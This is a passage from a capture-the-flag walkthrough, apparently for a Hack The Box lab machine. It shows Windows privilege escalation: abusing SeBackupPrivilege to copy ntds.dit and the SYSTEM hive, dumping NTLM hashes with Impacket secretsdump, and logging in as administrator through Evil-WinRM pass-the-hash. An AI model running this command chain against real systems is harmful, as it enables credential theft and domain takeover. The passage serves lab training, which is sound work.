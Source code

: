 ```ruby
-> %new1% = {58e9f038-6f01-4038-82ec-9e0f0273f75c}
The shadow copy was successfully exposed as z:\.
->

```

* nice, it's time to backup files now.

* first download these files and upload them to the machine [files](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

> **let's upload the files.**

![](https://i.ibb.co/whZMG94/uploaded.png)

> **import them now.**

```ruby

*Evil-WinRM* PS C:\temp> Import-Module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\temp> Import-Module .\SeBackupPrivilegeUtils.dll

```

* let's get ntds file now

> **Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\temp\ndts.dit**

![](https://i.ibb.co/JtS8PdR/copyntds.png)

* now we need to get the **SYSTEM** hive file.

> **reg save HKLM\SYSTEM c:\temp\system**

![](https://i.ibb.co/2YVP2qP/systemdone.png)

> **download system system.hive**

> **download ntds.dit**

* let's use secretdump from impacket to dump NTLM hash

> **python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds ntds.dit -system system.hive -hashes lmhash:nthash LOCAL -output LOCAL-HASHS**

![](https://i.ibb.co/BNLQLyq/adminhash.png)

* pingo!, we got the NTLM hash for administrator, let's try to login with it now.

> **evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee**

![](https://i.ibb.co/vkxX0Gp/rootflag.png)

* Thanks for reading.

* cheers!

 <script src="https://www.hackthebox.eu/badge/103789"></script>





